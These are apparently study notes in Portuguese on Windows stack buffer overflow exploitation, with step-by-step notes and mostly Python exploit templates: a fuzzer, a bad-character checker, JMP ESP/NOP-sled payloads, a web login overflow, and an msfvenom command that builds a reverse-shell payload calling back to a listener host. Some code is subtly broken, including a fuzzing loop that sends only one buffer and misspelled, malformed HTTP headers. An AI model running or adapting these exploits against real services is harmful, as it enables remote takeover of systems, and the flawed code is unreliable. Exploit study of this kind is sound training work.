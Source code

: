
# Conceito
O buffer overflow acontece quando é inserido uma quantidade grande de dados, que sobrescrevem o buffer, o EBP (base da Stack), o endereço de retorno, e o EIP, que indica o endereço da próxima instrução. Então pode-se tentar ganhar o controle do EIP, testar bad chars para assim encontrar um bom endereço de retorno, gerar um shellcode e ganhar acesso remoto através da shell

# Passos
## Coleta de Informações
- Identificar o software
- Entender como funciona a comunicação

## Fuzzing
- Enviar diversos tipos de dados afim de testar o comportamento do software

## Identificar a vulnerabilidade
- Atingir o EIP enviando dados até o programa sofrer de buffer overflow
- Controlar o EIP

## Identificar BadChars
- Identificar caracteres inválidos para não enviar na hora de enviar a shell

## Identificar Endereço de Retorno
- Identificar um ótimo local para o EIP enviar o shellcode
- Achar algum endereço que tenha um JMP ESP, visto que é um endereço fixo
- Procurar nas DLLs um comando JPM ESP

## Gerar o shellcode
- Fazer o exploit final e enviar para a aplicação para testar se funciona
- msfvenom -p windows/shell_reverse_tcp lhost=172.16.1.2 lport=443 exitfunc=thread -b "badchars" -f c

---
# Exemplos

## Fuzzing de dados

```python
#!/usr/bin/python
import socket

dados = "A" * 2007 + "BBBB" + "C" * 500 # Testar quantos dados precisam

lista = ["A"]
contador = 100

while len(lista) <= 3: # Calcula de 100 em 100
	lista.append("A" * contador) 
	contador = contador + 100 

for dados in lista:
	print "Fuzzing com SEND %s bytes" %len(dados)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.5",5800))
banner = s.recv(1024)
print banner
s.send("SEND " + dados + "\r\n")
```
---
## Lista de caracteres para BadChars

```python
#!/usr/bin/python

for num in range(0,256):
	print ((hex(num).replace('0x','\\x')),

```
---
## Verificação de BadChars

```python
#!/usr/bin/python
import socket

bad = "all bad chars" #Quando um char não é permitido, ele não aparece na pilha

dados = "A" * 2007 + "BBBB" + bad # Utilizar quando já tiver o número de dados

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.5",5800))
banner = s.recv(1024)
print banner
s.send("SEND " + dados + "\r\n")
```
---
## Fluxo de execução

```python
#!/usr/bin/python
import socket

#0x625012a0 - Endereço fictício

dados = "A" * 2007 + "\xa0\x12\x50\x62" + "\x90" * 32 + "C" * (500 - 32)
#'A's até EIP + Endereço JPM ESP + NOP + Shell

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.5",5800))
s.send("SEND " + dados + "\r\n")
```
---
## Exploit Final
```python
#!/usr/bin/python
import socket

shellcode = ("shellcode")

#0x625012a0 - Endereço fictício

exploit = "A" * 2007 + "\xa0\x12\x50\x62" + "\x90" * 32 + shellcode
#'A's até EIP + Endereço JPM ESP + NOP + Shell

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.5",5800))
s.send("SEND " + exploit + "\r\n")
```
---
## Exploit Web

```python
#!/usr/bin/python
import socket

# badchars = \x00\x0a\x0d\x25\x26\x2b\x3d
badchar = ("badchars")

# endereço de retorno = 0x10090c83

shellcode = ("shellcode")

dados = "A" * 780 + "\x83\x0c\x09\x10" + "\x90" * 16 + shellcode
tam = len(dados) + 20

request="POST /login HTTP/1.1\r\n"
request+="Host: 192.168.0.5\r\n"
request+="User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0 Firefox/68.0\r\n)"
request+="Accept: text/html, application/xhtml+xml,application/xml;q=0.9\r\n"
request+="Accept-Language: en-US,en;q=0.5\r\n"
request+="Accept-Encoding: gzip, deflatre\r\n"
request+="Referer: http://192.168.0.5/login\r\n"
request+="Content-Type: applcation/x-www-form-urlencoded\r\n"
request+="Content-Lenght: " + str(tam) + "\r\n"
request+="DNT: 1\r\n"
request+="Connection: close\r\n"
request+="Upgrade-Insecure-Requests: 1\r\n"
request+="\r\n"
request+="username=" + dados + "&password=A"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.0.5",80))
s.send(request)
```

# DEP - Data Execution Prevention
Também conhecido como non-execute (NX), tem como objetivo prevenir a execução de de códigos em memória

# ASLR - Address Space Layout Randomization
A ideia por trás do ASLR é tornar os endereços de memória aleatórios dificultando que o atacante consiga um endereço fixo durante a exploração